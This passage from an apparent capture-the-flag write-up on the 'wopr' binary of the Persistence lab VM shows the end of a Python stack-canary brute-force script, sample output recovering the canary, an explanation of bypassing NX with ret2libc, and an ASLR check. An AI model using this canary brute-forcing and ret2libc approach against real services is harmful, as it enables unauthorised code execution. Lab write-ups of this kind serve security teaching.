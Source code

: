 ```python canary_brute.py
        # as '[+] bye!\n' populated, if its wrong, not
        data =  sock.recv(64)   # [+] bye!\n
        if "bye" in data:
            print "[!!] Found a possible canary value of '{0}'!".format(hex_byte.encode("hex"))
            canary += hex_byte
            sock.close()
            break

        sock.close()

    # if we cant even find the first byte, we failed already
    if len(canary) <= 0:
        print "[-] Unable to even find the first bit. No luck"
        sys.exit(0)

if len(canary) > 0:
    print "[+] Canary seems to be {0}".format(canary.encode("hex"))
else:
    print "[-] Unable to brute canary"
```

An example run of this would end as follows:

```bash Running canary_brute.py
[+] Trying: '\x8d' in payload 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' (4:141/255)
[+] Trying: '\x8e' in payload 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' (4:142/255)
[+] Trying: '\x8f' in payload 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' (4:143/255)
[+] Trying: '\x90' in payload 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' (4:144/255)
[!!] Found a possible canary value of '90'!
[+] Canary seems to be 00ef8d90
```

Winning. Just to make 100% sure I actually have the correct canary, I made another small socket program just to append the canary to the initial 30 A's and send it. No stack smashing message appeared and we got the _bye_ message :)

##wopr - NX and EIP
If you can recall from earlier, `wopr` was compiled with the NX bit set. Effectively that means we can't simply exploit this vulnerability by setting EIP to the beginning of shellcode we simply sent along with the payload as the stack is not executable. Thankfully though, there is a concept such as ret2libc.

The idea behind ret2libc is to steer the application flow to useful commands within libc itself, and get code execution that way. A very popular function to use is the `system()` command, for almost obvious reasons.

I decided to make use of the same method. I quickly checked to see if ASLR was enabled on the Persistence VM:

```bash ASLR check
bash-4.1$ ldd /usr/local/bin/wopr 
    linux-gate.so.1 =>  (0xb7fff000)
    libc.so.6 => /lib/libc.so.6 (0xb7e62000)
    /lib/ld-linux.so.2 (0x00110000)

bash-4.1$ ldd /usr/local/bin/wopr 
    linux-gate.so.1 =>  (0xb7fff000)
    libc.so.6 => /lib/libc.so.6 (0xb7e62000)
    /lib/ld-linux.so.2 (0x00110000)
```
